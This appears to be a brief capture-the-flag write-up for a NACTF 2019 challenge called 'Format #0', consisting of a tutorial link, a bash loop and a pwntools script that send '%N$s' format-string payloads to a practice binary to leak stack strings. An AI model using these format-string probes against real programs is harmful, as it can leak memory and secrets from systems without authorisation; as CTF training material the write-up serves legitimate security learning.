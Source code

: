 # Format #0

format string attack ref: https://reversingpwn.wordpress.com/2017/12/27/format-string-attack-tutorial/<br><br>

<br>

```
for i in {1..50}; do echo $i; python -c "print '%$i\$s'"| ./format-0 ;done
```

<br>

```
from pwn import *

for i in range(1,50):
        print i
#       r = remote("shell.2019.nactf.com", 31782)
        r = process("./format-0")

        payload = "%" + str(i) + "$s"

        r.sendline(payload)
        print r.recv()
        r.close
```
